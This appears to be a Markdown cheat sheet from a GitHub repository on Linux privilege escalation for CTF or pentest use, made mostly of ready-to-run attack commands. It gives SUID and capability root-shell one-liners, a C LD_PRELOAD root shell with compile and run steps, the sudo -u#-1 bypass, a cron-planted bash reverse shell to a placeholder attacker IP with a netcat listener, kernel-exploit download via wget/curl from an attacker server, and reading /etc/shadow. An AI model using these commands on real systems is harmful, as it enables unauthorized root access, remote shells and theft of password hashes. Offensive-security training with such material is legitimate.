





# Linux Privilege Escalation


## SUID
SUID - OWNER
SGID - GROUP

### Step 1 - Find all SUID files
```
find / -perm -4000 -type f 2>/dev/null
```

Perfect candidates are:
```
/usr/bin/python*
/usr/bin/perl
/usr/bin/awk
/usr/bin/env
/usr/bin/find
```

### Step 2 - look online whether there are SUID PrivEsc Exploits
- Check [GTFOBins](https://gtfobins.github.io/) out for that



**Examples:**
- /usr/bin/python*
    ```
    python3 -c 'import os; os.setuid(0); os.system("/bin/sh")'
    ```

    when you have a `limited` shell:
    ```
    export TERM=xterm
    python2.7 -c 'import pty; pty.spawn("/bin/bash")'
    python2.7 -c "import os; os.execl('/bin/sh', 'sh', '-p')"
    ```

- /usr/bin/awk
    ```
    awk 'BEGIN {system("/bin/sh")}'
    ```

- /usr/bin/env
    ```
    /usr/bin/env /bin/sh -p
    ```

### Step 3 - ROOT
Execute the Exploits in order to get **ROOT** or a **FLAG**


## Sudo

### Step 1 - Check your current situation
```
env
sudo -l
```

### Step 2 - GET ROOT

### Step 2a - LD_PRELOAD Exploit (full root)


When you see this option you practically have free `sudo`

**Write a simple C code compiled as a shared object(.so extensio)**

```c
#include <stdio.h>
#include <sys/types.h>
#include <stdlib.h>

void _init() {
    unsetenv("LD_PRELOAD");
    setgid(0);
    setuid(0);
    system("/bin/bash");
}
```

**Compile it**
```
gcc -fPIC -shared -o shell.so shell.c -nostartfiles
```

**And now run it!**
```
sudo LD_PRELOAD=/home/user/ldpreload/shell.so find
```

**Root**

### Step 2b - Sudo NOPASSWD Binaries (GTFOBins)
```
sudo -l
```

In this case we have 3 files executeable with sudo without a passwort:
- (ALL) NOPASSWD: `/usr/bin/find`
- (ALL) NOPASSWD: `/usr/bin/less`
- (ALL) NOPASSWD: `/usr/bin/nano`

Just check out here what to do further and in a few seconds you have root:
- [GTFOBins](https://gtfobins.github.io/)

**PRIV-ESC and ROOT**

### Step 2c - Sudo with !root
sometimes you can start a program with sudo rights but you wont get root immediatly because of the !root. 

An Example
```
(ALL, !root) NOPASSWD: /bin/bash
```

in this case sudo is blocking the name `root` and you have to deal with it. Intern `-1` gets casted to `0` -> root privileges. 
```
sudo -u#-1 /bin/bash
```


## Capabilities
Another method to increase or elevate your privileges is to make use of capabilities

### Step 1 - Find all capabilities 
```
getcap -r / 2>/dev/null
```


### Step 2 - Find possible exploits
- Check [GTFOBins](https://gtfobins.github.io/) out for that



### Step 3 - Exploit!!!!
**A few perfecr examples would be:**
- /usr/bin/python3 = cap_setuid+ep
    ```
    python3 -c 'import os; os.setuid(0); os.system("/bin/bash")'
    ```
- /usr/bin/vim = cap_setuid+ep
    ```
    vim -c ':py import os; os.setuid(0); os.execl("/bin/sh", "sh", "-c", "reset; exec sh")'
    ```
    change `:py` to `:py3` in case you use python3


## CronJobs

### Step 1 - find them all
All cronjobs:
```
cat /etc/crontab
ls -la /etc/cron.*
```

System cronjobs:
```
ls -la /etc/cron.daily/
ls -la /etc/cron.hourly/
ls -la /etc/cron.weekly/
ls -la /etc/cron.monthly/q
```

User cronjobs:
```
crontab -l
```


Here you can see we have more than enough possibilities to get root

### Step 2 - Find out whether exploiting is possible
Check the files
```
cat backup.sh
strings antivirus
nano test.py
```

And check the files permissions
```
ls -la backup.sh
```

### Step 3 - Exploits
**Reverse Shell**
```
#!/bin/sh

bash -i >& /dev/tcp/<YOUR_IP>/PORT 0>&1
```

dont forget:
```
chmod +x file
```

now listen on your side and in less than a minute you have a root reverse shell 
```
netcat -nlvp PORT
```
**Root**

## Path Hijacking

### Step 1 - Enumerate the PATH
```
echo $PATh
```
**Ask yourself these questions:**
- What folders are located under $PATH
- Does your current user have write privileges for any of these folders?
- Can you modify $PATH?
- Is there a script/application you can start that will be affected by this vulnerability?

## NFS Privilege Escalation

### Step 1 - Identify NFS exports
Check what directories are exported:
    `cat /etc/exports`

Common dangerous option:
    `no_root_squash`

If present, root on the client is treated as root on the server.

### Step 2 - Check permissions
Verify whether the export is writable (rw).
Check whether files created inside the share keep UID 0.

### Step 3 - Identify execution paths
Look inside the export for:
    - cronjob scripts
    - service scripts
    - binaries executed by root
    - system-maintenance scripts

If the attacker can modify files that are executed by root on the server,
Privilege Escalation is possible.

### Step 4 - General exploit chain
1. Client mounts NFS export.
2. Client creates or modifies files inside the export.
3. Server later executes these files as root.
4. Privilege escalation to root occurs.


## Kernel Exploits 
*Kernel exploits can crash the target. Use them only as last resort!*

### Step 1 - Find the Linux Kernel Version
```
cat /etc/issue
cat /proc/version
cat /proc/sys/kernel/osrelease
uname -a
```

### Step 2 - Search and find an exploit code for the kernel version
- [Exploit DB](https://www.exploit-db.com/)
- [Google](https://google.com)
- [CVE Details](https://www.cvedetails.com/)
- `searchsploit`

You can use `searchsploit` to easily find the `.c` or `.txt` file for faster exploitation.
```
searchsploit Ubuntu 14.40
searchsploit "3.13" "ubuntu"
searchsploit overlay
searchsploit local linux
```
```
cp /usr/share/exploitdb/exploits/linux/local/37292.c .
scp 37292.c user@<TARGET_IP>:/tmp 
```

### Step 3 - Exploiting!!!
**Upload the CVE via a HTPP Server**
```
python3 -m http.server 8000
```

**Then GET the File**
```
wget http://<YOUR_IP>:8000/file_name
```
OR 
```
curl -O http://<DEINE_IP>:8000/datei_name
```
OR when SSH avaiable
```
scp datei user@<TARGET_IP>:/tmp/
```

**dont forget to make it executeable**
```
chmod +x file
```

**RUN IT AND HOPE THAT YOUR MACHINE DONT CRASH**

## Upgrade your shell
first upgrade your shell
```
python -c "import pty; pty.spawn('/bin/bash')"
ruby -e "exec '/bin/bash'"
perl -e "exec '/bin/bash';"
```

Then background process netcat with: `ctrl + z`

Then simply stty to foreground back the target machine
```
stty raw -echo; fg
```

Now just choose your prefered terminal environment
```
export TERM=xterm
```

clear and `ctrl + c`

**you successfully upgraded and stabilized your shell**

## Get password hashes
```
cat /etc/shadow
```